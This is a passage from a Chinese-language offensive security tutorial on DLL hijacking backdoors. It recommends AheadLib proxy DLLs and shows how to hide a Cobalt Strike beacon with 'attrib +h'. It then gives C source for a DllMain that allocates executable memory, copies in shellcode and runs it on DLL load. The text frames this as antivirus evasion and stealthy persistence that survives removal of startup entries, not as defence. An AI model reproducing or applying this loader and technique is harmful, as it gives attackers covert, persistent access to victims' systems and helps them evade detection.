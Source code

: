 经过上面的简单测试, 不难得出，无论是从简易性，实用性，操作性 (方便免杀) 来看，我都推荐新手使用第一种方式，缺点也有，就是可能导出函数比较多的时候，会比较麻烦，但是这些不是什么大问题。因为尽量能用微软提供的功能去解决，远远比自己去 patch 内存来更有效，可以避免很多隐藏机制，系统版本等问题的影响，通用性得到保证, 所以下面的操作我将会采取 AheadLib 来进行展示。

**0×4**

  

**DLL 后门的利用**

DLL 查杀, 其实也是针对 shellcode 的查杀, 下面先写一个简单的加载 shellcode 的恶意代码。  

### **0x4.1 多文件利用方法**

最简单的一种利用手段就是:

存放我的 cs 木马 beacon 到一个比较隐蔽的目录:

C:\Users\xq17\Desktop\shellcode\beacon.exe

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6tiahSDOzibOQ5CE2vqU0sf41Xh2A6qnTAicXWMuY8HnSbCrT8AOCO4Lr0sHIGrvV38Z2bq6ZIPGfiaA/640?wx_fmt=png)

然后给这个文件加一个隐藏属性:

attrib +h beacon.exe

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6tiahSDOzibOQ5CE2vqU0sf4YD5tibzFQjmwYr2NibOyCMawI24BqR0ic1g2bPHJibYSBHrTUibAa7xrwgw/640?wx_fmt=png)

接着我们采用 DLL 去加载这个木马。

代码大概如下:

```
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);
        unsigned char buf[] = "shellcode";
        size_t size = sizeof(buf);
        char* inject = (char *)VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        memcpy(inject, buf, size);
        CreateThread(0, 0, (LPTHREAD_START_ROUTINE)inject, 0, 0, 0);
    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
    }
    return TRUE;
}
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
```

然后后面直接去尝试加载就行了, 程序执行完的时候 (DLL_PROCESS_DETACH), 会自动加载我们的 cs 马。

> 说一下这种方案的好处, 就是 DLL 根本没有恶意操作, 所以肯定会免杀，但是你的木马文件要做好免杀，这种思路主要应用于通过劫持一些程序的 DLL, 然后实现隐蔽的重启上线，也就是权限持续维持，单单杀启动项对 DLL 进行权限维持的方式来说是没有用的。
